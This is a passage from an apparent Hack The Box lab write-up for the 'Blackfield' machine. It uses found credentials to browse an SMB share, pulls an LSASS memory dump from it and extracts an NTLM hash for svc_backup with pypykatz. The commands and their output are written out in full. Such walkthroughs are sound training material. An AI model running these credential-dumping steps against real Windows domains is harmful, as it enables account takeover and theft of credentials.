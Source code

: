 ```
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

## Getting the NTLM hash for svc_backup

After connecting to the SMB share we see a bunch of directories:

```
snowscan@kali:~/htb/blackfield_demo$ smbclient -U audit2020%Password123 //10.10.10.192/forensic
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020
```

Looking around the various directories we can see that they contain various forensic evidence like command output and memory captures. The one thing that stands out is we have a memory capture of the LSASS process in the `lsass.zip` file:

```
smb: \> ls memory_analysis\
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
```

LSASS is the Local Security Authority Subsystem Service in Windows that handles authentication and security policies. Basically, it holds all sorts of authentication information in its memory space.

After downloading and extracting the file to our local Kali VM we'll use the pypykatz tool to extract the credentials from the memory dump. Pypykatz is a Python implementation of Mimikatz.

```
snowscan@kali:~/htb/blackfield_demo$ unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP
  
snowscan@kali:~/htb/blackfield_demo$ pypykatz lsa minidump lsass.DMP |more
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
```